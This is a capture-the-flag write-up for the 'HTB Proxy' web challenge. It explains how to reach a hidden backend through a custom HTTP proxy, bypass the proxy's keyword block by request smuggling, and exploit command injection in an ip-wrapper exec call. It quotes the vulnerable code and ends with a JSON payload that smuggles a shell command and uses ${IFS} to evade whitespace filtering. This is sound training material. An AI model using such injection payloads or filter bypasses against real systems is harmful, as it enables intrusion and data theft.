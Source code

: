 # HTB Proxy - HTB CTF WEB 1000

Your team is tasked to penetrate the internal networks of a raider base in order to acquire explosives, scanning their ip ranges revealed only one alive host running their own custom implementation of an HTTP proxy, have you got enough wit to get the job done?

## Overall Solution

Server is behind proxy at the address provided. Find server destination with /server-status endpoint. Access backend server. RCE for flag

## Proxy & Backend Server

Looking at index.js, there is an express.js application running on port 5000. This is where we want to hit the /flushinterface endpoint which has a RCE vuln (ip-wrapper documentation)

There is a check for "flushinterface" in the main.go file:

```
	if strings.Contains(strings.ToLower(request.URL), string([]byte{102, 108, 117, 115, 104, 105, 110, 116, 101, 114, 102, 97, 99, 101})) {
		var responseText string = badReqResponse("Not Allowed")
		frontendConn.Write([]byte(responseText))
		frontendConn.Close()
		return
	}
```


get server status

```
	if request.URL == string([]byte{47, 115, 101, 114, 118, 101, 114, 45, 115, 116, 97, 116, 117, 115}) {
		var serverInfo string = GetServerInfo()
		var responseText string = okResponse(serverInfo)
		frontendConn.Write([]byte(responseText))
		frontendConn.Close()
		return
	}

```

endpoint of /server-status gives

```Hostname: ng-team-219485-webhtbproxybiz2024-9z6ac-55594c555c-znxmw, Operating System: linux, Architecture: amd64, CPU Count: 4, Go Version: go1.21.10, IPs: 192.168.67.133```

The burp request below interacts with the server behind the proxy:

![accessserver](https://github.com/user-attachments/assets/8ac0d119-e754-4094-9f08-2e8149f28422)


Sending a POST to the /getAddresses proves that we are able to interact with the backend server:

![getaddresses](https://github.com/user-attachments/assets/9aac7106-22c4-4c9b-930d-a94448779504)

Now we need to figure out how to use /flushinterface to solve the challenge

## Request Smuggling

/flushinterface is blocked when trying to go through the proxy:

```
	if strings.Contains(strings.ToLower(request.URL), string([]byte{102, 108, 117, 115, 104, 105, 110, 116, 101, 114, 102, 97, 99, 101})) {
		var responseText string = badReqResponse("Not Allowed")
		frontendConn.Write([]byte(responseText))
		frontendConn.Close()
		return
	}
```

To bypass this, we want the server to make the request rather than the proxy. This is request smuggling.

Payload and response for to exploit the proxies double newline separation vulnerability.

![flush1](https://github.com/user-attachments/assets/316d8f26-9229-48cd-8ab8-edc6f75b4b49)


## IP-Wrapper

ip-wrapper is similar to linux command and calling ip.addr.flush() should remove all assign IP addresses from a given network interface.

Code for the flush function is vulnerable to RCE due to the 'exec':

```
function flush(interfaceName) {
    return new Promise((resolve, reject) => {
        exec(`ip address flush dev ${interfaceName}`, (error, stdout, stderr) => {
            if (stderr) {
                if(stderr.includes('Cannot find device')) {
                    reject(new Error('Cannot find device ' + interfaceName));
                } else {
                    reject(new Error('Error flushing IP addresses: ' + stderr));
                }
                return;
            }

            resolve();
        });
    });
}
```

Testing RCE (blind so need to update something we can access -> index.html)

payload:

![rcepaytest](https://github.com/user-attachments/assets/cd0fafcb-e81a-4aa1-9662-7df033786ad2)


result:

![rcetestres](https://github.com/user-attachments/assets/2c9aa01a-737f-4a46-9f61-5699fbd6f64b)


After trying various payloads to find the flag, the validateInput() function removes whitespaces from the interface. To bypass this, use ${IFS} instead of whitespace for the final payload:

```{"interface":";cat${IFS}/flag.txt>/app/proxy/includes/index.html;"}```

This displays the flag on the index.html page for the proxy!

## Learning / Resources

- PinkDraconian's walkthrough
	- https://www.youtube.com/watch?v=eNOW71D2GQw&feature=youtu.be
- web proxies
- curl -x
- ip-wrapper
	- https://github.com/AlchemillaHQ/ip-wrapper/blob/master/src/addresses.js
- request smuggling
	- https://portswigger.net/web-security/request-smuggling
- nip io
